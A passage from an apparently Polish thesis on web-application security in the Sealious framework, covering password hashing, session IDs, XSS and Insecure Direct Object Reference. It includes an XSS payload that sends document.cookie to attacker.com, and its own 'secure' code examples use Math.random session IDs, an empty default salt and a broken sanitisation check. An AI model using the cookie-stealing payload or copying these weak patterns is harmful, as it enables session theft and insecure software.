  upewniania się, że w zapytaniu nie brakuje owego id.
\end{itemize}

\subsection{Zapobieganie wyciekaniu
haseł}\label{zapobieganie-wyciekaniu-haseux142}

Aby zapobiec wyciekom haseł, można przechowywać w bazie danych wartości
pewnej funkcji hashującej dla każdego hasła, zamiast haseł w postaci
jawnego tekstu. Wtedy przy próbie logowania wystarczy porównać wartość
tej funkcji dla podanego przez użytkownika hasła z wartością
przechowywaną w bazie.

Często\footnote{zob.
  https://github.com/search?q=md5\%28password\%29\&type=Code} używaną
funkcją hashującą hasła jest \texttt{md5}---mimo że zostało
wielokrotnie\footnote{m.in. (\emph{Research proves feasibility of
  collision attacks against MD5}, Microsoft, 2008), (\emph{Vulnerability
  Note VU\#836068: MD5 vulnerable to collision attacks}, Dougherty,
  2008)} udowodnione, że nie jest to funkcja odporna na
kolizje\footnote{``Kolizja'' oznacza możliwość wygenerowania w
  realistycznym czasie ciągu znaków, dla którego dana funkcja hashująca
  przyjmuje wartość identyczną z zadanym hashem (np. skradzionym z bazy
  danych).}. Organizacja \emph{Internet Engineering Task Force} zaleca
korzystania z algorytmu \texttt{PBKDF2} (zob. \emph{RFC 2898}, Kaliski,
2000)

Niestety jeżeli atakujący zyska dostęp do zahashowanych haseł, może użyć
ogólnie dostępnych (\emph{Free Rainbow Tables}, „\emph{Free Rainbow
Tables}'', b.d.) tablic wartości danej funkcji hashującej do
błyskawicznego odgadnięcia haseł (tzw. \emph{rainbow tables}).

Można się przed tym zabezpieczyć używając tzw. ``solenia'' (ang.
\emph{salting}). Proces ten polega na wstępnej modyfikacji tekstu przed
obliczeniem dla niego wartości funkcji hashującej, co utrudnia
wykorzystywanie \emph{rainbow tables} do łamania haseł.

\section[Zarządzanie sesją w Sealiousie]{\texorpdfstring{Zarządzanie
sesją w Sealiousie\footnote{Sealious w obecnych odsłonach (wersja
  \texttt{0.6.21-stable} i wersja \texttt{0.7-alpha}, stan ze stycznia
  2016) nie zawiera mechanizmu sesji---aktualna struktura naszego
  frameworka wymaga, aby to chipy typu \emph{channel} implementowały
  swój mechanizm weryfikacji identyfikatora sesji. Części tej sekcji
  odnoszące się do protokołów \texttt{http}(\texttt{s}) i plików
  \emph{cookies} tyczą się konkretnego pluginu do
  Sealiousa---\texttt{sealious-www-server}.}}{Zarządzanie sesją w Sealiousie}}\label{zarzux105dzanie-sesjux105-w-sealiousiechannelux5fresponsibilityux5ffootnote}

\subsection{Bezpieczeństwo identyfikatora
sesji}\label{bezpieczeux144stwo-identyfikatora-sesji}

\texttt{sealious-www-server}, plugin pozwalający na komunikację z
aplikacją sealiousową za pomocą protokołów \texttt{HTTP} i
\texttt{HTTPS}, ułatwia konfigurację szyfrowania SLL---wystarczy tylko
podać adresy portów:

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{Sealious}\NormalTok{.}\VariableTok{ConfigManager}\NormalTok{.}\AttributeTok{set_config}\NormalTok{(}
    \StringTok{"chip.channel.www_server"}\OperatorTok{,} \OperatorTok{\{}
        \DataTypeTok{connections}\OperatorTok{:} \OperatorTok{\{}
            \DataTypeTok{https}\OperatorTok{:} \OperatorTok{\{}
                \DataTypeTok{port}\OperatorTok{:} \DecValTok{4430}\OperatorTok{,}
                \DataTypeTok{tls}\OperatorTok{:} \OperatorTok{\{}
                    \DataTypeTok{key}\OperatorTok{:} \VariableTok{fs}\NormalTok{.}\AttributeTok{readFileSync}\NormalTok{(}\StringTok{"sealious.key"}\NormalTok{)}\OperatorTok{,}
                    \DataTypeTok{cert}\OperatorTok{:} \VariableTok{fs}\NormalTok{.}\AttributeTok{readFileSync}\NormalTok{(}\StringTok{"sealious.crt"}\NormalTok{)}
                \OperatorTok{\}}
            \OperatorTok{\}}
        \OperatorTok{\}}
    \OperatorTok{\}}
\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\texttt{sealious-www-server} nie może domyślnie włączać \texttt{HTTPS},
gdyż wymagany do działania tego protokołu jest podpisany certyfikat
\texttt{TLS}---stąd potrzeba ręcznej konfiguracji.

Po udanym zalogowaniu identyfikator sesji jest generowany losowo i
hashowany za pomocą algorytmu sha1\footnote{Podany fragment kodu
  pochodzi z pliku \texttt{define/channel.www\_server.js} z repozytorium
  \texttt{Sealious/sealious-www-server}.

  Kod ten wykorzystuje funkcję sha1 z uwagi na jej szybkie
  działanie---jej brak odporności na kolizję nie stanowi w tym przypadku
  problemu, gdyż wygenerowanie ciągu znaków dającego wartość funkcji
  sha1 identyczną z id sesji w niczym nie pomoże atakującemu. Atakujący
  po uzyskaniu dostępu do identyfikator sesji może po prostu umieścić go
  w nagłówku HTTP, aby uzyskać dostęp do danych użytkownika---bez
  potrzeby odszyfrowywania hasha, jak to ma miejsce w przypadku
  zahashowanych haseł.}:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{function} \AttributeTok{generate_session_id}\NormalTok{() }\OperatorTok{\{}
    \KeywordTok{var} \NormalTok{seed }\OperatorTok{=} \VariableTok{Math}\NormalTok{.}\AttributeTok{random}\NormalTok{().}\AttributeTok{toString}\NormalTok{()}\OperatorTok{;}
    \KeywordTok{var} \NormalTok{session_id }\OperatorTok{=} \AttributeTok{sha1}\NormalTok{(seed)}\OperatorTok{;}
    \ControlFlowTok{return} \NormalTok{session_id}\OperatorTok{;}
\OperatorTok{\}}
\end{Highlighting}
\end{Shaded}

Następnie wpisywany jest do nagłówka odpowiedzi HTTP instruującego
przeglądarkę do utworzenia nowego wpisu w pliku cookie:

\begin{Shaded}
\begin{Highlighting}[]
\ControlFlowTok{if}\NormalTok{(}\VariableTok{request}\NormalTok{.}\VariableTok{payload}\NormalTok{.}\AttributeTok{redirect_success}\NormalTok{)}\OperatorTok{\{}
    \AttributeTok{reply}\NormalTok{()}
        \NormalTok{.}\AttributeTok{state}\NormalTok{(}\StringTok{'SealiousSession'}\OperatorTok{,} \NormalTok{session_id)}
        \NormalTok{.}\AttributeTok{redirect}\NormalTok{(}\VariableTok{request}\NormalTok{.}\VariableTok{payload}\NormalTok{.}\AttributeTok{redirect_success}\NormalTok{)}\OperatorTok{;}
\OperatorTok{\}}\ControlFlowTok{else}\OperatorTok{\{}
    \AttributeTok{reply}\NormalTok{(}\StringTok{"http_session: Logged in!"}\NormalTok{)}
        \NormalTok{.}\AttributeTok{state}\NormalTok{(}\StringTok{'SealiousSession'}\OperatorTok{,} \NormalTok{session_id)}\OperatorTok{;}
\OperatorTok{\}}
\end{Highlighting}
\end{Shaded}

\subsection{Bezpieczeństwo haseł
użytkowników}\label{bezpieczeux144stwo-haseux142-uux17cytkownikuxf3w}

Pole \texttt{password} w zasobie typu \texttt{user} w Sealiousie jest
obsługiwane przez \texttt{field\_type.hashed\_text}. Ten typ pola
generuje hash hasła użytkownika używając zalecanego przez organizację
\emph{Internet Engineering Task Force} (zob. \emph{RFC 2898}, Kaliski,
2000) algorytmu \texttt{PBKDF2}\footnote{zdecydowaliśmy się wybrać
  algorytm \texttt{PBKDF} z uwagi na jego odporność na kolizje---mając
  na uwadze, że jest on bardziej wymagający obliczeniowo niż proste
  hashowanie przy pomocy \texttt{md5}}:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{encode}\OperatorTok{:} \KeywordTok{function}\NormalTok{(context}\OperatorTok{,} \NormalTok{params}\OperatorTok{,} \NormalTok{value_in_code)}\OperatorTok{\{}
    \KeywordTok{var} \NormalTok{salt }\OperatorTok{=} \StringTok{""}\OperatorTok{,} \NormalTok{algorithm }\OperatorTok{=} \StringTok{"md5"}\OperatorTok{;}
    \ControlFlowTok{if} \NormalTok{(params) }\OperatorTok{\{}
        \ControlFlowTok{if} \NormalTok{(}\VariableTok{params}\NormalTok{.}\AttributeTok{salt}\NormalTok{) }\OperatorTok{\{}
            \NormalTok{salt }\OperatorTok{=} \VariableTok{params}\NormalTok{.}\AttributeTok{salt}\OperatorTok{;}
        \OperatorTok{\}}
        \ControlFlowTok{else} \ControlFlowTok{if} \NormalTok{(}\VariableTok{params}\NormalTok{.}\AttributeTok{algorithm}\NormalTok{) }\OperatorTok{\{}
            \NormalTok{algorithm }\OperatorTok{=} \VariableTok{params}\NormalTok{.}\AttributeTok{algorithm}\OperatorTok{;}
        \OperatorTok{\}}
    \OperatorTok{\}}
    \ControlFlowTok{return} \KeywordTok{new} \AttributeTok{Promise}\NormalTok{(}\KeywordTok{function}\NormalTok{(resolve}\OperatorTok{,} \NormalTok{reject)}\OperatorTok{\{}
        \VariableTok{crypto}\NormalTok{.}\AttributeTok{pbkdf2}\NormalTok{(}
            \NormalTok{value_in_code}\OperatorTok{,} \NormalTok{salt}\OperatorTok{,} 
            \DecValTok{4096}\OperatorTok{,} \DecValTok{64}\OperatorTok{,} \NormalTok{algorithm}\OperatorTok{,} 
            \KeywordTok{function}\NormalTok{(err}\OperatorTok{,} \NormalTok{key)}\OperatorTok{\{}
                \NormalTok{err }\OperatorTok{?} \AttributeTok{reject}\NormalTok{(err) : }\AttributeTok{resolve}\NormalTok{(}\VariableTok{key}\NormalTok{.}\AttributeTok{toString}\NormalTok{(}\StringTok{'hex'}\NormalTok{))}\OperatorTok{;}
            \OperatorTok{\}}
        \NormalTok{)}\OperatorTok{;}
    \OperatorTok{\}}\NormalTok{)}
\OperatorTok{\}}
\end{Highlighting}
\end{Shaded}

Zabezpiecza to hasła użytkowników przed złamaniem w wypadku wycieku
informacji z bazy danych.

\chapter{Cross-Site Scripting (XSS)}\label{cross-site-scripting-xss}

Ataki typu XSS wykorzystują interpreter HTML przeglądarki do
uruchamiania arbitralnych skryptów, które mają pełen dostęp do danych
sesyjnych użytkownika i mogą spowodować ich wyciek. Zapobieganie im nie
należy do najtrudniejszych, ale podatności na XSS są wciąż bardzo
powszechne.

\section{Przykłady ataków XSS w dużych
aplikacjach}\label{przykux142ady-atakuxf3w-xss-w-duux17cych-aplikacjach}

Do stron, na których odnaleziono podatność na atak przy użyciu XSS,
należą (wg \emph{XSS Archive}, w, 2015):

\begin{itemize}
\tightlist
\item
  samsung.com
\item
  fbi.com
\item
  ups.com
\item
  uk.playstation.com
\item
  9gag.com
\end{itemize}

\section{Przebieg ataku}\label{przebieg-ataku-2}

Rozpatrzmy przebieg XSS na przykładzie webowego, opartego o
AJAX\footnote{Korzystanie z modelu AJAX w aplikacjach webowych często
  jest przyczyną podatności na XSS (\emph{Ajax: The Definitive Guide:
  Interactive applications for the Web}, Holender, 2008)---na szczęście
  często jesteśmy w stanie im w pełni zapobiec odpowiednio konfigurując
  wyłącznie backend aplikacji}, interfejsu sieci społecznościowej.

Kod pobierający najnowsze posty użytkowników może mieć postać:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{var} \NormalTok{post_container }\OperatorTok{=} \VariableTok{document}\NormalTok{.}\AttributeTok{getElementById}\NormalTok{(}\StringTok{"posts"}\NormalTok{)}\OperatorTok{;}
\VariableTok{request}\NormalTok{.}\AttributeTok{get}\NormalTok{(}\StringTok{"/newest_posts.php"}\OperatorTok{,} \KeywordTok{function}\NormalTok{(posts)}\OperatorTok{\{}
    \VariableTok{posts}\NormalTok{.}\AttributeTok{forEach}\NormalTok{(}\KeywordTok{function}\NormalTok{(post)}\OperatorTok{\{}
        \KeywordTok{var} \NormalTok{post_div }\OperatorTok{=} \VariableTok{document}\NormalTok{.}\AttributeTok{createElement}\NormalTok{(}\StringTok{"div"}\NormalTok{)}\OperatorTok{;}
        \VariableTok{post_div}\NormalTok{.}\VariableTok{classList}\NormalTok{.}\AttributeTok{add}\NormalTok{(}\StringTok{"user-post"}\NormalTok{)}\OperatorTok{;}
        \VariableTok{post_div}\NormalTok{.}\AttributeTok{innerHTML} \OperatorTok{=} \VariableTok{post}\NormalTok{.}\AttributeTok{body}\OperatorTok{;}
        \VariableTok{post_container}\NormalTok{.}\AttributeTok{appendChild}\NormalTok{(post_div)}\OperatorTok{;}
    \OperatorTok{\}}\NormalTok{)}
\OperatorTok{\}}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

Następnie, jeżeli serwer nie zapobiega XSS, wystarczy, aby któryś z
użytkowników rozpatrywanej aplikacji utworzył post o treści:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<div>}
\NormalTok{Jestem złośliwym użytkownikiem}
\KeywordTok{</div>}
\KeywordTok{<script>}
\VariableTok{document}\NormalTok{.}\AttributeTok{location}\OperatorTok{=}\StringTok{'http://www.attacker.com/cgi-bin/cookie.cgi?foo='}
   \OperatorTok{+} \VariableTok{document}\NormalTok{.}\AttributeTok{cookie}
\OperatorTok{<}\SpecialStringTok{/script>}
\end{Highlighting}
\end{Shaded}

aby każdy z użytkowników, któremu wyświetli się post atakującego został
przekierowany na złośliwą stronę, która przechwytuje id sesji---co
umożliwia atakującemu podszycie się pod tego użytkownika.

\section{Jak Sealious zapobiega XSS}\label{jak-sealious-zapobiega-xss}

Domyślnie zainstalowany w Sealiousie typ pola \texttt{text} korzysta z
modułu \texttt{sanitize-html} aby usuwać z inputu użytkownika
potencjalnie złośliwe skrypty\footnote{poniższy fragment kodu pochodzi z
  pliku \texttt{lib/base-chips/field-type.text.js} z repozytorium
  sealious/sealious}:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{var} \NormalTok{field_type_text }\OperatorTok{=} \KeywordTok{new} \VariableTok{Sealious}\NormalTok{.}\AttributeTok{FieldType}\NormalTok{(}\OperatorTok{\{}
    \DataTypeTok{name}\OperatorTok{:} \StringTok{"text"}\OperatorTok{,}
    \CommentTok{/*}
\CommentTok{    (...)}
\CommentTok{    */}
    \DataTypeTok{encode}\OperatorTok{:} \KeywordTok{function}\NormalTok{(context}\OperatorTok{,} \NormalTok{params}\OperatorTok{,} \NormalTok{value_in_code)}\OperatorTok{\{}
        \ControlFlowTok{if} \NormalTok{(}\OperatorTok{!}\NormalTok{params }\OperatorTok{&&} \VariableTok{params}\NormalTok{.}\AttributeTok{strip_html} \OperatorTok{!==} \KeywordTok{false}\NormalTok{) }\OperatorTok{\{}
            \KeywordTok{var} \NormalTok{stripped }\OperatorTok{=} \AttributeTok{sanitizeHtml}\NormalTok{(}\VariableTok{value_in_code}\NormalTok{.}\AttributeTok{toString}\NormalTok{()}\OperatorTok{,} \OperatorTok{\{}
                \DataTypeTok{allowedTags}\OperatorTok{:} \NormalTok{[]}
            \OperatorTok{\}}\NormalTok{)}
            \ControlFlowTok{return} \VariableTok{Promise}\NormalTok{.}\AttributeTok{resolve}\NormalTok{(stripped)}\OperatorTok{;}
        \OperatorTok{\}} \ControlFlowTok{else} \OperatorTok{\{}
            \ControlFlowTok{if} \NormalTok{(value_in_code }\KeywordTok{instanceof} \NormalTok{Object) }\OperatorTok{\{}
                \ControlFlowTok{return} \VariableTok{Promise}\NormalTok{.}\AttributeTok{resolve}\NormalTok{(}\VariableTok{JSON}\NormalTok{.}\AttributeTok{stringify}\NormalTok{(value_in_code))}\OperatorTok{;}
            \OperatorTok{\}} \ControlFlowTok{else} \ControlFlowTok{if} \NormalTok{(value_in_code }\OperatorTok{===} \KeywordTok{null}\NormalTok{) }\OperatorTok{\{}
                \ControlFlowTok{return} \VariableTok{Promise}\NormalTok{.}\AttributeTok{resolve}\NormalTok{(}\KeywordTok{null}\NormalTok{)}\OperatorTok{;}
            \OperatorTok{\}} \ControlFlowTok{else} \OperatorTok{\{}
                \ControlFlowTok{return} \VariableTok{Promise}\NormalTok{.}\AttributeTok{resolve}\NormalTok{(}\VariableTok{value_in_code}\NormalTok{.}\AttributeTok{toString}\NormalTok{())}\OperatorTok{;}
            \OperatorTok{\}}
        \OperatorTok{\}}
    \OperatorTok{\}}
\OperatorTok{\}}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

Dzięki temu opisany powyżej input złośliwego użytkownika zostałby w
aplikacji sealiousowej przed zapisaniem do bazy danych zamieniony na:

\begin{verbatim}
Jestem złośliwym użytkownikiem
\end{verbatim}

Tekst ten jest pozbawiony tagów \texttt{\textless{}script\textgreater{}}
(wraz z ich zawartością), co uniemożliwia XSS.

\chapter{Insecure Direct Object
Reference}\label{insecure-direct-object-reference}

\emph{Insecure Direct Object Reference} (\emph{``niezabezpieczone
bezpośrednie odwołanie do obiektu''}) oznacza, że użytkownik może
uzyskać dostęp do zasobu, który powinien być przed nim ukryty,
podmieniając tylko identyfikator tego zasobu w \texttt{URL} lub w
parametrze zdalnego wywołania metody serwera.

Automatyczne testy nie mogą łatwo wykryć podatności tego typu, gdy
aplikacja nie posiada deklaratywnego opisu tego, który użytkownik ma
dostęp do jakiego zasobu\footnote{bez takiego opisu wnioskowanie nt.
  uprawnień użytkowników do konkretnych zasobów może być dokonane tylko
  poprzez czytanie \emph{imperatywnego} kodu aplikacji---co wymaga
  ludzkiej intuicji}.

\section{\texorpdfstring{Przykład ataków typu \emph{Insecure Direct
Object Reference} w dużych
aplikacjach}{Przykład ataków typu Insecure Direct Object Reference w dużych aplikacjach}}\label{przykux142ad-atakuxf3w-typu-insecure-direct-object-reference-w-duux17cych-aplikacjach}

Podatność na \emph{Insecure Direct Object Reference} nie jest bardzo
``medialna''\footnote{14 tyś. wyników w Google Search dla zapytania
  ``insecure direct object reference'' vs 1,14 \emph{mln} dla zapytania
  ``sql injection''}, ale potrafi być dotkliwa w skutkach i mieć miejsce
nawet w popularnych, dużych aplikacjach:

\begin{itemize}
\tightlist
\item
  \textbf{Citigroup}---atakujący korzystając z brute-force na adresach z
  \emph{Insecure Direct Object Reference} wykradli dane 200 tysięcy
  klientów banku Citi (\emph{Thieves Found Citigroup Site an Easy
  Entry}, Schwarz \& Dash, 2011)
\item
  \textbf{Facebook}---z powodu podatności na \emph{Insecure Direct
  Object Reference} atakujący mógł usunąć wszystkie notatki z konta
  dowolnego użytkownika tego serwisu (\emph{How I could have removed all
  your Facebook notes}, Prakash, 2015).
\item
  \textbf{Twitter}---szczęśliwie w porę wykryta podatność na opisywany w
  tej sekcji atak umożliwiała atakującemu usunięcie danych kart
  płatniczych \emph{wszystkich} reklamodawców Twittera (\emph{Twitter
  Vulnerability Could Delete Credit Cards from Any Twitter Account},
  Aboul-Ela, 2014)
\end{itemize}

\section{\texorpdfstring{Przebieg ataku z wykorzystaniem \emph{Insecure
Direct Object
Reference}}{Przebieg ataku z wykorzystaniem Insecure Direct Object Reference}}\label{przebieg-ataku-z-wykorzystaniem-insecure-direct-object-reference}

Odsłonięcie aplikacji na atak typu \emph{Insecure Direct Object
Reference} następuje, gdy udostępnia ona jakiś zasób pod URL-em, który
zawiera identyfikator wczytywanego zasobu---ale nie weryfikuje, czy
użytkownik, który wywołuje to zapytanie, ma dostęp do tego zasobu.

Rozpatrzmy tę podatność na przykładzie hipotetycznej aplikacji, która
przechowuje poufne dane o użytkownikach. Oto fragment jej kodu,
odpowiedzialny za tworzenie zapytania SQL do bazy danych:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{String query = }\StringTok{"SELECT * FROM user_data WHERE user_id = ?"}\NormalTok{;}
\NormalTok{PreparedStatement pstmt =}
    \NormalTok{connection.}\FunctionTok{prepareStatement}\NormalTok{(query , }\KeywordTok{... }\NormalTok{);}
\NormalTok{pstmt.}\FunctionTok{setString}\NormalTok{( }\DecValTok{1}\NormalTok{, request.}\FunctionTok{getParameter}\NormalTok{(}\StringTok{"user_id"}\NormalTok{));}
\NormalTok{ResultSet results = pstmt.}\FunctionTok{executeQuery}\NormalTok{( );}
\end{Highlighting}
\end{Shaded}

Atakujący musi tylko podmienić wartość parametru \texttt{user\_id} w
zapytaniu do serwera, aby uzyskać dostęp do poufnych danych innego
użytkownika:

\begin{verbatim}
GET /app/confidentialUserInfo?user_id=nie_moje_id
\end{verbatim}

\section{\texorpdfstring{Zapobieganie \emph{Insecure Direct Object
Reference}}{Zapobieganie Insecure Direct Object Reference}}\label{zapobieganie-insecure-direct-object-reference}

Istnieją dwa główne podejścia zapobiegania tego typu podatności na atak:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  \textbf{Unikanie bezpośrednich odwołań do zasobów}

  Można zamiast bezpośrednich odwołań do zasobów korzystać z
  identyfikatorów obowiązujących tylko dla danej sesji/użytkownika.
  Przykładowo---do zaznaczania, który z 6-ciu dostępnych dla danego
  użytkownika zasobów został przez niego wybrany, zamiast używania
  identyfikatora zasobu z bazy danych jako parametru URL można używać
  liczb 1-6. Aplikacja musi wtedy mapować każdą z tych liczb na
  faktyczny identyfikator w bazie danych, osobno dla każdego
  użytkownika.

  Ta metoda usuwa ``Direct'' z ``Insecure Direct Object Reference''.
\item
  \textbf{Sprawdzanie praw dostępu przy każdym bezpośrednim odwołaniu do
  zasobu}

  Jeżeli aplikacja jest napisana tak, że przy \emph{każdym} bezpośrednim
  odwołaniu sprawdza, czy użytkownik wykonujący zapytanie ma do danego
  zasobu prawo dostępu, to jest odporna na \emph{Insecure Direct Object
  Reference}. Niestety w aplikacjach bogatych w różnorakie sposoby
  dostępu do danych trudno jest upewnić się, że żadne bezpośrednie
  odwołanie nie zostało pominięte.

  Ta metoda usuwa ``Insecure'' z ``Insecure Direct Object Reference''.
\end{enumerate}

\section{\texorpdfstring{Jak Sealious zapobiega \emph{Insecure Direct
Object
Reference}}{Jak Sealious zapobiega Insecure Direct Object Reference}}\label{jak-sealious-zapobiega-insecure-direct-object-reference}

Rozważając sposoby, w jakie Sealious może zapobiegać \emph{Insecure
Direct Object Reference} zdecydowaliśmy się wdrożyć podejście \#2 z
powyższej listy: \emph{``Sprawdzanie praw dostępu przy \textbf{każdym}
bezpośrednim odwołaniu do zasobu''}, co zaowocowało wzbogaceniem
Sealiousa o następujące cechy:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  aplikacja pisana przy pomocy Sealiousa musi zawierać deklaratywny opis
  jej struktury i uprawnień użytkowników. Opis ten musi jednoznacznie
  stwierdzać, jacy użytkownicy i w jakich okolicznościach mogą wykonywać
  określone metody na konkretnym zasobie. Rozpatrzmy przykład opisu
  aplikacji sealiousowej:

\begin{Shaded}
\begin{Highlighting}[]
 \DecValTok{1} \KeywordTok{new} \VariableTok{Sealious}\NormalTok{.}\AttributeTok{ResourceType}\NormalTok{(}\OperatorTok{\{}
 \DecValTok{2}    \DataTypeTok{name}\OperatorTok{:} \StringTok{"post"}\OperatorTok{,}
 \DecValTok{3}    \DataTypeTok{fields}\OperatorTok{:} \NormalTok{[}
 \DecValTok{4}        \OperatorTok{\{}\DataTypeTok{name}\OperatorTok{:} \StringTok{"title"}\OperatorTok{,} \DataTypeTok{type}\OperatorTok{:} \StringTok{"text"}\OperatorTok{,} \DataTypeTok{params}\OperatorTok{:} \OperatorTok{\{}\DataTypeTok{max_length}\OperatorTok{:} \DecValTok{80}\OperatorTok{\}\},}
 \DecValTok{5}        \OperatorTok{\{}\DataTypeTok{name}\OperatorTok{:} \StringTok{"body"}\OperatorTok{,} \DataTypeTok{type}\OperatorTok{:} \StringTok{"text"}\OperatorTok{\}}
 \DecValTok{6}   \NormalTok{]}\OperatorTok{,}
 \DecValTok{7}    \DataTypeTok{access_strategy}\OperatorTok{:} \OperatorTok{\{}
 \DecValTok{8}        \DataTypeTok{create}\OperatorTok{:} \StringTok{"logged_in"}\OperatorTok{,}
 \DecValTok{9}        \DataTypeTok{retrieve}\OperatorTok{:} \StringTok{"public"}\OperatorTok{,}
\DecValTok{10}        \DataTypeTok{default}\OperatorTok{:} \StringTok{"just_owner"}
\DecValTok{11}    \OperatorTok{\}}
\DecValTok{12} \OperatorTok{\}}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

  Powyższy przykład kodu stanowi opis\footnote{proszę zwrócić uwagę, że
    poza koniecznymi wywołaniami \texttt{Sealious.init} i
    \texttt{Sealious.start} opis ten stanowi całość kodu potrzebnego do
    jej uruchomienia i poprawnego działania} prostej aplikacji
  sealiousowej, w której:

  \begin{itemize}
  \tightlist
  \item
    istnieje typ zasobu \texttt{post}, który ma pola \texttt{title} oraz
    \texttt{body} (linijki 4 i 5)
  \item
    tylko zalogowany użytkownik może tworzyć zasoby typu \texttt{post}
    (linijka 9)
  \item
    wszystkie zasoby typu \texttt{post} są publicznie dostępne, nawet
    dla niezalogowanych użytkowników (linijka 9)
  \item
    edytować oraz usuwać konkretne zasoby typu \texttt{post} może tylko
    ich twórca (linijka 10\footnote{wartość \texttt{just\_owner} dla
      klucza \texttt{default} w mapie \texttt{access\_strategy} oznacza,
      że dla każdej metody, dla której strategia dostępu nie została
      określona, należy użyć strategii \texttt{just\_owner}})
  \end{itemize}

  Deklaratywny opis aplikacji ułatwia testowanie jej
  zabezpieczeń---ponieważ zamierzenia programisty odnośnie uprawnień
  użytkowników są w nim bezpośrednio zawarte i nie muszą być zgadywane w
  trakcie czytania imperatywnego kodu.
\item
  Identyfikatory zasobów w Sealiousie nie są przewidywalne.

  Sealious, zgodnie z rekomendacją \emph{Internet Engineering Task
  Force} (\emph{RFC 4122}, Leach i in., 2006) używa UUID zamiast liczb
  całkowitych do jednoznacznej identyfikacji zasobu. Uniemożliwia to
  przewidzenie identyfikatorów istniejących zasobów
\item
  \textbf{Każda metoda służąca do odczytu lub modyfikacji zasobu w
  Sealiousie jest wrażliwa na kontekst, w którym została wykonana.}

  Aplikacja sealiousowa po otrzymaniu dowolnego zapytania od użytkownika
  generuje obiekt reprezentujący \emph{kontekst} tego zapytania.
  Kontekst zawiera informacje o:

  \begin{itemize}
  \tightlist
  \item
    id użytkownika, który dokonał zapytania (\texttt{undefined}, jeżeli
    jest to użytkownik niezalogowany)
  \item
    czasie otrzymania zapytania (w postaci liczby całkowitej---ilości
    milisekund od 1 stycznia 1970 GMT)
  \item
    adresie IP, z którego przyszło zapytanie (tylko w kontekście
    aplikacji webowych\footnote{przypominam, że Sealious może też być
      wykorzystany do tworzenia aplikacji desktopowych})
  \end{itemize}

  \textbf{Następnie obiekt ten jest podawany jako argument do
  \emph{każdej} metody związanej z zarządzaniem zasobami, która jest
  wywołana w trakcie generowania odpowiedzi na zapytanie użytkownika.}

  Każda z wrażliwych na kontekst metod sprawdza, czy wykonywana przez
  nią operacja jest dozwolona w danym kontekście. W przypadku decyzji
  negatywnej rzuca błąd, w przypadku decyzji pozytywnej wykonuje się
  dalej i podaje dany jej obiekt reprezentujący kontekst do każdej
  wywoływanej przez nią wrażliwej na kontekst metody.

  Przykładem metody wrażliwej na kontekst jest metoda
  \texttt{create\_resource} należąca do subjectu
  \texttt{ResourceTypeCollection}:

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{ResourceTypeCollection}\NormalTok{.}\VariableTok{prototype}\NormalTok{.}\AttributeTok{create_resource} \OperatorTok{=} 
  \KeywordTok{function}\NormalTok{(context}\OperatorTok{,} \NormalTok{body )}\OperatorTok{\{}
    \KeywordTok{var} \NormalTok{self }\OperatorTok{=} \KeywordTok{this}\OperatorTok{;}

    \ControlFlowTok{return} \VariableTok{self}\NormalTok{.}\AttributeTok{resource_type}
      \NormalTok{.}\AttributeTok{check_if_action_is_allowed}\NormalTok{(context}\OperatorTok{,} \StringTok{"create"}\NormalTok{)}
    \NormalTok{.}\AttributeTok{then}\NormalTok{(}\KeywordTok{function}\NormalTok{()}\OperatorTok{\{}
        \ControlFlowTok{return} \VariableTok{self}\NormalTok{.}\AttributeTok{resource_type}
          \NormalTok{.}\AttributeTok{validate_field_values}\NormalTok{(context}\OperatorTok{,} \KeywordTok{true}\OperatorTok{,} \NormalTok{body)}\OperatorTok{;}
    \OperatorTok{\}}\NormalTok{).}\AttributeTok{then}\NormalTok{(}\KeywordTok{function}\NormalTok{()}\OperatorTok{\{}
        \ControlFlowTok{return} \VariableTok{self}\NormalTok{.}\AttributeTok{resource_type}
          \NormalTok{.}\AttributeTok{encode_field_values}\NormalTok{(context}\OperatorTok{,} \NormalTok{body)}\OperatorTok{;}
    \OperatorTok{\}}\NormalTok{).}\AttributeTok{then}\NormalTok{(}\KeywordTok{function}\NormalTok{(encoded_body)}\OperatorTok{\{}
        \KeywordTok{var} \NormalTok{newID }\OperatorTok{=} \AttributeTok{UUIDGenerator}\NormalTok{(}\DecValTok{10}\NormalTok{)}\OperatorTok{;}
        \KeywordTok{var} \NormalTok{resource_data }\OperatorTok{=} \OperatorTok{\{}
            \DataTypeTok{sealious_id}\OperatorTok{:} \NormalTok{newID}\OperatorTok{,}
            \DataTypeTok{type}\OperatorTok{:} \VariableTok{self}\NormalTok{.}\VariableTok{resource_type}\NormalTok{.}\AttributeTok{name}\OperatorTok{,}
            \DataTypeTok{body}\OperatorTok{:} \NormalTok{encoded_body}\OperatorTok{,}
            \DataTypeTok{created_context}\OperatorTok{:} \VariableTok{context}\NormalTok{.}\AttributeTok{toObject}\NormalTok{()}\OperatorTok{,}
            \DataTypeTok{last_modified_context}\OperatorTok{:} \VariableTok{context}\NormalTok{.}\AttributeTok{toObject}\NormalTok{()}
        \OperatorTok{\};}
        \ControlFlowTok{return} \VariableTok{Sealious}\NormalTok{.}\AttributeTok{Datastore}
          \NormalTok{.}\AttributeTok{insert}\NormalTok{(}\StringTok{"resources"}\OperatorTok{,} \NormalTok{resource_data}\OperatorTok{,} \OperatorTok{\{\}}\NormalTok{)}\OperatorTok{;}
    \OperatorTok{\}}\NormalTok{).}\AttributeTok{then}\NormalTok{(}\KeywordTok{function}\NormalTok{(database_entry)}\OperatorTok{\{}
        \ControlFlowTok{return} \VariableTok{self}\NormalTok{.}\AttributeTok{resource_type}
          \NormalTok{.}\AttributeTok{decode_db_entry}\NormalTok{(context}\OperatorTok{,} \NormalTok{database_entry)}\OperatorTok{;}
    \OperatorTok{\}}\NormalTok{)}
\OperatorTok{\}}
\end{Highlighting}
\end{Shaded}

  Jak widać, metoda ta najpierw sprawdza, czy jest dozwolona w obecnym
  kontekście
